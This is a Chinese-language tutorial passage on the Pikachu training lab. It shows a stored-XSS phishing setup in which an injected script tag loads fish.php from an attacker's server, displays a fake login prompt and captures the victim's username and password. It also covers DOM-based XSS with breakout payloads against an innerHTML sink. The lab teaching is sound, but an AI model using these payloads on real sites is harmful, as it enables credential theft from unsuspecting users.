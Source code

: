
## 模拟实战
修改pikachu/pkxss/xfish 下的 fish.php 文件，**将IP地址改为攻击者的服务器地址**<br />![image-20210625145736122.png](_img/assets/1655882986635-b2924abf-7ff2-42b8-8fa2-c43fad1b830e.png)

构造的Payload
```
LSAQ-XMTX<script src="http://192.168.1.5/pikachu/pkxss/xfish/fish.php"></script>
```

访问漏洞服务器进行留言<br />![image-20210625150053697.png](_img/assets/1655882995215-df806782-21d6-46b7-b2bb-13dce0758bba.png)

模拟受害者访问漏洞服务器，会弹出一个登录窗口<br />![image-20210625160550573.png](_img/assets/1655883000430-b9673230-d8ca-4dd3-9704-a04dd94322f5.png)

若用户输入账号和密码我们就能够在攻击机上得到用户的账号和密码<br />![image-20210625160637863.png](_img/assets/1655883004560-cc987766-a618-420c-952b-b8ad72cf049f.png)

**注意**：若是抓取不到账户密码可能因为使用的是phpStudy搭建的环境，默认是以CGI版本运行PHP，PHP 的 HTTP 认证机制仅在 PHP 以 Apache 模块方式运行时才有效，因此该功能不适用于 CGI 版本。


# DOM型xss

## 查看关键源码
```php
if(isset($_GET['text'])){    $haha = "这里是后台的处理逻辑";}
```

对，你没有看错这就是后台的代码，直接开干吧！


## 实战
首先输入
```
<script>alert(LSAQ-XMTX)</script>
```

结果没有任何反应，按F12在查看器中查看，可以看到字符串拼接写到了 a 标签的 href 属性中，a标签会写到 Id 为 dom的 div 标签中<br />![image-20210625165506803.png](_img/assets/1655883018768-8c733db3-ffaf-4383-8394-88df2b77c5f8.png)

查看js代码
```javascript
<script>
    function domxss()
	{
    var str = document.getElementById("text").value;
    document.getElementById("dom").innerHTML = "<a href='"+str+"'>what do you see?</a>";
	}
   //试试：'><img src="#" onmouseover="alert('xss')">
   //试试：' onclick="alert('xss')">,闭合掉就行
</script>
```
